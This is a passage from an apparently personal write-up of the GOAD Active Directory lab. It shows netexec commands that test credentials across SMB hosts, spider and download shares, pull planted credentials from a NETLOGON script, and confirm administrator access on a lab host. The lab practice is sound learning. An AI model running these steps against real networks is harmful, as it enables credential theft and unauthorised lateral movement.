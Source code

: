 ```bash
nxc smb 192.168.56.0/24 -u 'arya.stark' -p 'Needle'
```


<div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/08-arya-password-confirmation.png'><br><ins>Password Confirmed</ins></div>
#### Jeor Mormont

What can this Arya account access ? We run nxc once more ...

```bash
nxc smb 192.168.56.11,22-23 -u 'arya.stark' -p 'Needle' -M spider_plus -o DOWNLOAD_FLAG=True
```

That command downloads files including `NETLOGON/script.ps1`

```powershell
┌──(qdada㉿Embizweni)-[/tmp/nxc_spider_plus/192.168.56.11/NETLOGON]
└─$ cat script.ps1
# fake script in netlogon with creds
$task = '/c TODO'
$taskName = "fake task"
$user = "NORTH\jeor.mormont"
$password = "_L0ngCl@w_"
```

Once again the credentials are tested over again ...

```bash
nxc smb 192.168.56.0/24 -u 'NORTH\jeor.mormont' -p '_L0ngCl@w_'
```

It is discovered that Jeor Mormont has Administrator access on `CASTLEBLACK`, obviously.

<div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/09-Jeor-Mormont.png'><br><ins>Jeor Mormont</ins></div>
### AS-REPRoasting
